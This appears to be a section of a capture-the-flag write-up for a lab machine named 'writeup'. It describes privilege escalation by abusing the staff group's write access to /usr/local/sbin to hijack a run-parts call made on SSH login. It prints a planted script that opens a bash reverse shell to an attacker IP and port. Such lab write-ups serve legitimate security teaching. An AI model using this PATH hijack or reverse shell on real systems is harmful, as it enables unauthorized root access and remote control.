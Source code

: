 # 15 - PrivEsc



# staff
```bash
jkr@writeup:/var$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

The members of group staff are able to modify /usr/local  without needing root privileges. These paths are also in the PATH variable of any user in linux systems.

# /usr/local

![](vx_images/3790982767795.png)

Our user can write to files in `{bin/,sbin/}` but unfortunately no read permission .



# pspy
![](vx_images/517999105165.png)

Note when and how `run-parts` is executed , immediately after a user logs in via ssh`(sshd: [accepted])`. run-parts is run without an absolute path, in which case the binary will be searched in PATH. The first location  in PATH variable is sbin/ in which we have write access. We can place a malicious run-parts in sbin/ and when we log in via ssh on another terminal, our malicious file will be executed instead of the intended /bin/run-parts because /bin is the lowest priority location in the PATH while /usr/local is the highest.



# /usr/local/sbin/run-parts
```bash
jkr@writeup:/usr/local$ chmod +x sbin/run-parts
jkr@writeup:/usr/local$ cat sbin/run-parts
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.14/4444 0>&1

```




# root
![](vx_images/2160846138620.png)

